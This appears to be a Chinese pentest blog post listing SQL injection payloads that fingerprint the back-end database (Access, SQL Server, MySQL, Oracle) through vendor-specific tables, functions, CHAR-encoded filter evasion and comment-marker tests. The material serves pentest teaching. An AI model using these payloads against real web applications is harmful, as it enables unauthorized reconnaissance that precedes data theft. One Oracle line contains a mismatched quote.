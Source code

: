 +++
date = "2016-06-19T22:15:52+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SQL注入之判断数据库类型"
topics = ["Pentest"]

+++

### 0x00 常见手段
扫描端口、指纹、抓包查看http头信息、在网址后面直接判断

### 0x01 根据各数据库特有函数判断
* Access:
```
and (select count(*) from MSysAccessObjects)>0   返回正常说明是access
and exists(select count(*) from表)
ID=1 and (select count (*) from sysobjects)>0 返回异常
ID=1 and (select count (*) from msysobjects)>0返回异常
```

* SQLServer:
```
and (select count(*) from sysobjects) >0   返回正常说明是mssql
ID=1 and (select count (*) from sysobjects)>0 返回正常
ID=1 and (select count (*) from msysobjects)>0返回异常
ID=1 and left(version(),1)=5%23  //红色字体也可能是4
ID=1 and exists(select id from sysobjects)
ID=1 and len(user)>0 
ID=1 CHAR(97)+CHAR(110)+CHAR(100)+CHAR(32)+CHAR(49)+CHAR(61)+CHAR(49)
```

* MySQL:
```
and length(user())>0   返回正常说明是MySQL
id=2 and version()>0 返回正常
id=2 and length(user())>0
id=2 CHAR(97, 110, 100, 32, 49, 61, 49)
```

* ORACLE:
```
ID=1  and '1'||'1’='11'
ID=1  and 0<>(select count(*) from dual) 
ID=1 CHR(97) || CHR(110) || CHR(100) || CHR(32) || CHR(49) || CHR(61) || CHR(49)
```

### 0x02 其他方法
```
"/*"是MySQL中的注释符，返回错误说明该注入点不是MySQL，继续提交如下查询字符：
"--"是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符：
";"是子句查询标识符，Oracle不支持多行查询，因此如果返回错误，则说明很可能是Oracle数据库。
```

